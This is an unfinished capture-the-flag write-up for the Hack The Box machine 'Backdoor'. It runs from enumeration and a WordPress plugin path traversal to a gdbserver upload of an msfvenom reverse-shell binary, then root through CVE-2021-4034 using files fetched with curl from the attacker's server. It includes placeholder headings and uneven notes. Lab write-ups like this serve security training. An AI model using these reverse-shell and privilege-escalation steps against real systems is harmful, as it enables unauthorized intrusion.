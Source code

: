 # Introduction
This box prooved to be quite intresting, it teaches you different techniques whithin directory traversal, remote gdb and finally a traditional privesc. I do reccomend this box as a cool way to get to know better tools, but I also have to add that it might be annoying to do becuase of the initial foothold might be one user per session.

# Enumeration
First I start with a nmap scan. It doesn't revewal anything out of the usual, I find three ports, 22, 80 and 1337.
I'm a little unsure what I can use the 1337 port for yet so i try to connect and see if I get any errors.
## <! -- > INSERT NMAP SCAN RESULTS
```
nc -nv 10.10.11.143 1337
CONNECTED
ls
pwd
whoami
```
Ok, so the port is open and I can connect, but it isn't giving me any feedback. So I'll let that be for now.
Next I add backdoor.htb as an alias to 10.10.11.143 just to make sure there isn't any virtual routing that is happening so I can detect that too. As my previous writeups say, you do that by adding the ip and alias to `/etc/hosts`. After that I start a dirb scan to check out the results.


Steps:
Dirb


```
┌──(kali㉿kali)-[~/Documents/HTB/Backdoor]                                
└─$ dirb http://backdoor.htb                                                    
-----------------                                                      
DIRB v2.22                                                    
By The Dark Raver                                                    
-----------------               
START_TIME: Fri Feb 25 14:11:16 2022
URL_BASE: http://backdoor.htb/ 
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt                                                                   
GENERATED WORDS: 4612                          
---- Scanning URL: http://backdoor.htb/ ----                    
+ http://backdoor.htb/index.php (CODE:301|SIZE:0)                
+ http://backdoor.htb/server-status (CODE:403|SIZE:277)           
==> DIRECTORY: http://backdoor.htb/wp-admin/                       
==> DIRECTORY: http://backdoor.htb/wp-content/                     
==> DIRECTORY: http://backdoor.htb/wp-includes/                  
+ http://backdoor.htb/xmlrpc.php (CODE:405|SIZE:42)             
---- Entering directory: http://backdoor.htb/wp-admin/ ---- 
+ http://backdoor.htb/wp-admin/admin.php (CODE:302|SIZE:0)          
==> DIRECTORY: http://backdoor.htb/wp-admin/css/                
==> DIRECTORY: http://backdoor.htb/wp-admin/images/               
==> DIRECTORY: http://backdoor.htb/wp-admin/includes/          
+ http://backdoor.htb/wp-admin/index.php (CODE:302|SIZE:0)             
==> DIRECTORY: http://backdoor.htb/wp-admin/js/                  
==> DIRECTORY: http://backdoor.htb/wp-admin/maint/                
==> DIRECTORY: http://backdoor.htb/wp-admin/network/           
==> DIRECTORY: http://backdoor.htb/wp-admin/user/     
---- Entering directory: http://backdoor.htb/wp-content/ ----
+ http://backdoor.htb/wp-content/index.php (CODE:200|SIZE:0)       
==> DIRECTORY: http://backdoor.htb/wp-content/plugins/             
==> DIRECTORY: http://backdoor.htb/wp-content/themes/               
==> DIRECTORY: http://backdoor.htb/wp-content/upgrade/                               
==> DIRECTORY: http://backdoor.htb/wp-content/uploads/   
```
So there are a lot of results here, after some manual enumeration, I will point out three results:
http://backdoor.htb/wp-admin/
http://backdoor.htb/wp-admin/maint/
http://backdoor.htb/wp-content/plugins/


https://www.exploit-db.com/exploits/39575

https://github.com/mthbernardes/LFI-Enum

Had to edit it

PID: 809        ../../../../../../../proc/809/cmdline../../../../../../../proc/809/cmdline../../../../../../../proc/809/cmdline/bin/sh while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \;; done <script>win
dow.close()</script>                                                                                                                                                                                                                        
PID: 815        ../../../../../../../proc/815/cmdline../../../../../../../proc/815/cmdline../../../../../../../proc/815/cmdline/bin/sh while true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"; done <script>wind$
w.close()</script>

https://sourceware.org/gdb/onlinedocs/gdb/Server.html
https://book.hacktricks.xyz/pentesting/pentesting-remote-gdbserver
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 PrependFork=true -f elf -o binary.elf
chmod +x binary.elf
gdb binary.elf
# Set remote debuger target
target extended-remote 10.10.10.11:1337
# Upload elf file
remote put binary.elf binary.elf
# Set remote executable file
set remote exec-file /home/user/binary.elf
# Execute reverse shell executable
run
```

(gdb) target extended-remote 10.10.11.125:1337
`target:/home/user/binary.elf' has disappeared; keeping its symbols.
Remote debugging using 10.10.11.125:1337
Reading /lib64/ld-linux-x86-64.so.2 from remote target...
Reading /lib64/ld-linux-x86-64.so.2 from remote target...
Reading symbols from target:/lib64/ld-linux-x86-64.so.2...
Reading /lib64/ld-2.31.so from remote target...
Reading /lib64/.debug/ld-2.31.so from remote target...
Reading /usr/lib/debug//lib64/ld-2.31.so from remote target...
Reading /usr/lib/debug/lib64//ld-2.31.so from remote target...
Reading target:/usr/lib/debug/lib64//ld-2.31.so from remote target...
(No debugging symbols found in target:/lib64/ld-linux-x86-64.so.2)
0x00007ffff7fd0100 in ?? () from target:/lib64/ld-linux-x86-64.so.2
(gdb) remote put binary.elf binary.elf
Successfully sent file "binary.elf".
(gdb) set remote exec-file /home/user/binary.elf
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
`target:/home/user/binary.elf' has disappeared; keeping its symbols.
Starting program:  
Reading /home/user/binary.elf from remote target...
Reading /home/user/binary.elf from remote target...
Reading symbols from target:/home/user/binary.elf...
(No debugging symbols found in target:/home/user/binary.elf)
┌──(kali㉿kali)-[~/Documents/HTB/Backdoor]                                                                                                                                                                                                  
└─$ nc -nvlp 6969                                                                                                                                                                                                                           
listening on [any] 6969 ...                                                                                                                                                                                                                 
                                                                                                                                                                                                                                            
ls                                                                                                                                                                                                                                          
whoami                                                                                                                                                                                                                                      
ls                                                                                                                                                                                                                                          
ls                                                                                                                                                                                                                                          
ls                                                                                                                                                                                                                                          
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.125] 38176                                                                                                                                                                               
binary.elf
revshell.elf
user.txt
user
binary.elf
revshell.elf
user.txt
binary.elf
revshell.elf
user.txt
binary.elf
revshell.elf
user.txt
ls

/usr/bin/python3 -c 'import pty; pty.spawn("/bin/sh")'


```
root         809  0.0  0.0   2608  1652 ?        Ss   11:47   0:14      _ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root ;; done

╔══════════╣ Sudo version                                                                                                                                                                                                                   
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                                                                                                                                  
Sudo version 1.8.31                                                                                                                                                                                                                         
                                                                                                                                                                                                                                            
Vulnerable to CVE-2021-4034 
```

```
$ curl http://10.10.14.231:8000/evil-so-.c -o evil-so.c                                                                                                                                                                                     
curl http://10.10.14.231:8000/evil-so-.c -o evil-so.c                                                                                                                                                                                       
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                                                                                             
                                 Dload  Upload   Total   Spent    Left  Speed                                                                                                                                                               
100   172  100   172    0     0    873      0 --:--:-- --:--:-- --:--:--   873                                                                                                                                                              
$ curl http://10.10.14.231:8000/exploit.c -o exploit.c                                                                                                                                                                                      
curl http://10.10.14.231:8000/exploit.c -o exploit.c                                                                                                                                                                                        
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                                                                                             
                                 Dload  Upload   Total   Spent    Left  Speed                                                                                                                                                               
100   555  100   555    0     0   2747      0 --:--:-- --:--:-- --:--:--  2747                                                                                                                                                              
$ curl http://10.10.14.231:8000/makefile -o makefile                                                                                                                                                                                        
curl http://10.10.14.231:8000/makefile -o makefile                                                                                                                                                                                          
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                                                                                             
                                 Dload  Upload   Total   Spent    Left  Speed                                                                                                                                                               
100   148  100   148    0     0    740      0 --:--:-- --:--:-- --:--:--   740                                                                                                                                                              
$ make                                                                                                                                                                                                                                      
make                                                                                                                                                                                                                                        
/bin/sh: 15: make: not found
$ curl http://10.10.14.231:8000/exploit -o exploit                                                                                                                                                                                          
curl http://10.10.14.231:8000/exploit -o exploit                                                                                                                                                                                            
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                                                                                                                                             
                                 Dload  Upload   Total   Spent    Left  Speed
100 16176  100 16176    0     0  53562      0 --:--:-- --:--:-- --:--:-- 53562
$ curl http://10.10.14.231:8000/evil.so -o evil.so
curl http://10.10.14.231:8000/evil.so -o evil.so
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 15584  100 15584    0     0  51432      0 --:--:-- --:--:-- --:--:-- 51263
$ ./exploit
./exploit
# whoami
whoami
root

```
